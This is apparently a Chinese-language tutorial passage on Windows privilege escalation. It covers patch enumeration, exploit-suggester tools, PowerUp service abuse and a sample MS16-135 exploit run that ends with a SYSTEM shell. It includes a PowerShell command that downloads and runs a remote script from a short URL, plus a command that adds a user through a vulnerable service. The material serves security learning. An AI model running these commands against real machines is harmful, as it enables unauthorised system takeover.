




# 权限提升分析与防御

windows权限：

* User  :  普通用户
* Administrator  ： 管理员
* Syatem ：系统权限，dump hash
* TrustedInstaller ： windows中最高权限。对系统文件，system 权限也无法修改，只有 TrustedInstaller 权限才能修改。

提权分为：

* 纵向提权：低权限角色获得高权限角色的权限，如： webshell ---->  管理员。
* 横向提权：获取同级别角色的权限。如：系统A  --->   系统B .

常见提权方法：

* 系统内核溢出漏洞提权
* 数据库提权
* 错误的系统配置提权
* 组策略首选项提权
* web中间件漏洞提权
* DLL劫持提权
* 滥用高权限令牌提权
* 第三方软件/服务提权

## 一、系统内核溢出漏洞提权

**溢出漏洞：**

计算机中有个地方叫做缓存区，程序缓存区大小是事先设定好的，如果用户输入的数据的大小超过了缓存区的大小，程序就会溢出。

比较局限，具体看机器打补丁情况。

#### 1.1发现系统缺失补丁

```
whoami
whoami /groups
# Mandatory Label\Medium Mandatory Level 为标准用户
```

查询安装的补丁：

```
systeminfo
wmic qfe get Caption,Description,HotFixID,InstalledOn
```


这些输出结果是不能直接被利用的。攻击者采取的利用方式：寻找提权的 EXP， 将已安装的补丁编号与提权的 EXP 的编号进行对比，例如

* KiTrap0D 和 KB979682
* MS11-011  和 KB293802
* MS11-080  和 KB2592799
* MS11-080  和 KB2592779

然后使用没有编号的 EXP 进行提权。

常见 [EXP链接](https://github.com/SecWiki/windows-kernel-exploits)

#### 1.2 利用MSF发现缺失补丁

MSF模块后渗透模块`post/windows/gather/enum_patches`,可以根据漏洞编号找出系统中安装的补丁

```
use post/windows/gather/enum_patches
set session 1
run
```


msf模块

```
use post/multi/recon/local_exploit_suggester

```



#### 1.3 利用windwos exp suggester发现缺失补丁

github：https://github.com/AonCyberLabs/Windows-Exploit-Suggester

更新索引库

```
python2 windows-exploit-suggester.py --update
```

会在文件夹下生成以日期命名的 excel表格。

将已安装补丁导入信息导入txt文件

```
systeminfo>patches.txt
```

检索未修复漏洞

```
python2 windows-exploit-suggester.py --database 2021-01-20-mssb.xls --systeminfo patches.txt
```



#### 1.4 powershell中sherlock脚本

https://github.com/rasta-mouse/Sherlock

使用方法：

```
powershell
Import-Module .\Sherlock.ps1
Find-Allvulns
```




#### 1.5 手工网站查找

https://bugs.hacking8.com/tiquan/

把补丁号复制进去即可查询



​                                                                                                                                                                                                                                                

## 二、windwos操作系统配置错误利用分析与防范

windwos操作系统中，攻击者通常会通过系统内核溢出漏洞来提权，但如果无法利用，就会利用系统中的配置错误来提权。

windwos常见配置错误：

* 管理员凭据配置错误
* 服务器配置错误
* 故意削弱的安全措施
* 用户权限过高等

#### 2.1 系统服务权限配置错误

windwos系统服务文件在操作系统启动时加载和执行，并在后台调用执行文件。因此，如果一个低权限用户对此类系统服务调用的可执行文件拥有写权限，就可以将该文件替换成任意可执行文件，并随着系统服务的启动获得系统权限。

windwos服务是以 system 权限运行的，因此，其文件夹、文件和注册表键值都是受强访问机制保护的。但是，在某些情况下，操作系统中仍然存在一些没有得到有效保护的服务。

系统服务权限配置错误(可写目录漏洞)有如下两种可能：

* 服务未运行：攻击者会使用任意服务替换原来的服务，然后重启服务
* 服务正在运行且无法被终止：这种情况符合绝大多数的漏洞利用场景，攻击者通常会利用 DLL 劫持技术并尝试重启服务来提权。

#### 2.1.1 PowerUp利用

也就是 [**Privrsc**](https://github.com/PowerShellMafia/PowerSploit)

加载脚本

```
Import-Module .\Privesc.psm1
```

获取函数

```
Get-Command -Module Privesc
```

检测全部信息

```
Invoke-AllChecks   # 我的没有

Find-AllVulns     # 检测存在的漏洞
```

命令下执行

```
powershell.exe -exec bypass -Command "&{Import-Moudle .\PowerUp.ps1;Invoke-AllChecks}"
```

远程调用执行

```
powershell.exe -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://dwz.cn/2vkbfP');Invoke-AllChecks}"
```

添加用户

```
Install-ServiceBinary -ServiceName 'Apache_pn' -UserName huanquan -Password 123456
```

eg:

```
PS C:\phpstudy_pro\WWW> Find-AllVulns


Title      : User Mode to Ring (KiTrap0D)
MSBulletin : MS10-015
CVEID      : 2010-0232
Link       : https://www.exploit-db.com/exploits/11199/
VulnStatus : Not supported on 64-bit systems

Title      : Task Scheduler .XML
MSBulletin : MS10-092
CVEID      : 2010-3338, 2010-3888
Link       : https://www.exploit-db.com/exploits/19930/
VulnStatus : Not Vulnerable

Title      : NTUserMessageCall Win32k Kernel Pool Overflow
MSBulletin : MS13-053
CVEID      : 2013-1300
Link       : https://www.exploit-db.com/exploits/33213/
VulnStatus : Not supported on 64-bit systems

Title      : TrackPopupMenuEx Win32k NULL Page
MSBulletin : MS13-081
CVEID      : 2013-3881
Link       : https://www.exploit-db.com/exploits/31576/
VulnStatus : Not supported on 64-bit systems

Title      : TrackPopupMenu Win32k Null Pointer Dereference
MSBulletin : MS14-058
CVEID      : 2014-4113
Link       : https://www.exploit-db.com/exploits/35101/
VulnStatus : Appears Vulnerable

Title      : ClientCopyImage Win32k
MSBulletin : MS15-051
CVEID      : 2015-1701, 2015-2433
Link       : https://www.exploit-db.com/exploits/37367/
VulnStatus : Appears Vulnerable

Title      : Font Driver Buffer Overflow
MSBulletin : MS15-078
CVEID      : 2015-2426, 2015-2433
Link       : https://www.exploit-db.com/exploits/38222/
VulnStatus : Not Vulnerable

Title      : 'mrxdav.sys' WebDAV
MSBulletin : MS16-016
CVEID      : 2016-0051
Link       : https://www.exploit-db.com/exploits/40085/
VulnStatus : Not supported on 64-bit systems

Title      : Secondary Logon Handle
MSBulletin : MS16-032
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Not Supported on single-core systems

Title      : Windows Kernel-Mode Drivers EoP
MSBulletin : MS16-034
CVEID      : 2016-0093/94/95/96
Link       : https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS1
             6-034?
VulnStatus : Appears Vulnerable

Title      : Win32k Elevation of Privilege
MSBulletin : MS16-135
CVEID      : 2016-7255
Link       : https://github.com/FuzzySecurity/PSKernel-Primitives/tree/master/S
             ample-Exploits/MS16-135
VulnStatus : Appears Vulnerable

Title      : Nessus Agent 6.6.2 - 6.10.3
MSBulletin : N/A
CVEID      : 2017-7199
Link       : https://aspe1337.blogspot.co.uk/2017/04/writeup-of-cve-2017-7199.h
             tml
VulnStatus : Not Vulnerable
```

演示`ms16_135`

```
PS C:\phpstudy_pro\WWW> .\MS16-135.ps1
         _____ _____ ___   ___     ___   ___ ___
        |     |   __|_  | |  _|___|_  | |_  |  _|
        | | | |__   |_| |_| . |___|_| |_|_  |_  |
        |_|_|_|_____|_____|___|   |_____|___|___|


                           [by b33f -> @FuzzySec]

[?] Target is Win 7
[+] Bitmap dimensions: 0x770*0x4

[?] Adjacent large session pool feng shui..
[+] Worker  : FFFFF900C1E52000
[+] Manager : FFFFF900C1E54000
[+] Distance: 0x2000

[?] Creating Window objects
[+] Corrupting child window spmenu
[+] Trying to trigger arbitrary 'Or'..
[+] Trying to trigger arbitrary 'Or'..

[?] Success, reading beyond worker bitmap size!
[+] Old manager bitmap pvScan0: FFFFF900C1E54238
[+] New manager bitmap pvScan0: FFFFF900C1E52050

[>] Leaking SYSTEM _EPROCESS..
[+] _EPROCESS list entry: 0xFFFFF80004116030
[+] SYSTEM _EPROCESS address: 0xFFFFFA800CD3F040
[+] PID: 4
[+] SYSTEM Token: 0xFFFFF8A0000049FB

[>] Leaking current _EPROCESS..
[+] Traversing ActiveProcessLinks list
[+] PowerShell _EPROCESS address: 0xFFFFFA800EEB9150
[+] PID: 3760
[+] PowerShell Token: 0xFFFFF8A0037A1A9A

[!] Duplicating SYSTEM token!

PS C:\phpstudy_pro\WWW> whoami
nt authority\system
```

`windows-privesc-check2.exe` 这个也可以。

#### 2.1.2MSF利用

利用模块`service_permissions` , 选择 `AGGRESSIVE` 选项，可以利用目标机器上每一个有缺陷的服务，该选项被禁用时，该模块在第一次提权成功后就会停止工作。

#### 2.1.3注册表键AlwaysInstallElevated

注册表 AlwaysInstallElevated 是一个策略选项。

windwos 允许低权限用户以 System 权限运行安装文件。如果启用此策略设置项，那么任何权限的用户都能以 NT AUTHORITY\SYSTEN 权限来安装恶意的 MSI b